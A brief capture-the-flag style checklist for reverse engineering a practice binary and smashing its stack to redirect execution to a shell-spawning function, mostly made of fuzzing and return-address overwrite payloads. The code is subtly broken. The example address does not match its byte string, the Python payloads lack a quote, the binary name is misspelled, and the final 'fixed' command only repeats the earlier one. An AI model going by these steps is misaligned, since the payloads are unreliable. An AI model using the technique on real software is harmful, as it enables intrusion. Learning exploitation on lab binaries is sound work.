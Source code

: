 # Basic Reverse Engineering Checklist

## Download the Binary

Download whatever binary you're working with to your local machine using SCP, HTTP or, if you have source code, download the source code and build it locally using gcc.

## Dissassembler

Next, you can use IDA64 / Ghidra (if it's embedded) to dissassemble the software you're dealing with into a readable assembly / C format. The next part isn't instructable, you've got to search for vulnerable functions that you  can exploit, such as gets().

## Smashing the stack 

You can easily use python:

	python3 -c 'print("A"*50)' | ./hacktheworld

To fuzz data into the binary until you're able to cause a segmentation fault.

## Calling Functions

You can use “readelf” and “grep” to find the memory address of the function you want to call:

	readelf -s hacktheworld | grep -i "call_bash"

Take that memory address and convert it to hex, while retaining the endianness that you started with:

	For example, if the memory address was 0000000000400657
	The correct hex string would be \x58\x06\x40\x00\x00\x00\x00\x00


	python -c 'print "A"*72 + \x58\x06\x40\x00\x00\x00\x00\x00"' | ./hacketheworld

Sometimes your shell will execute, but will not stay- because it's not been given an argument. Adding a commabd to your argument can help this

python -c 'print "A"*72 + \x58\x06\x40\x00\x00\x00\x00\x00"' | ./hacketheworld
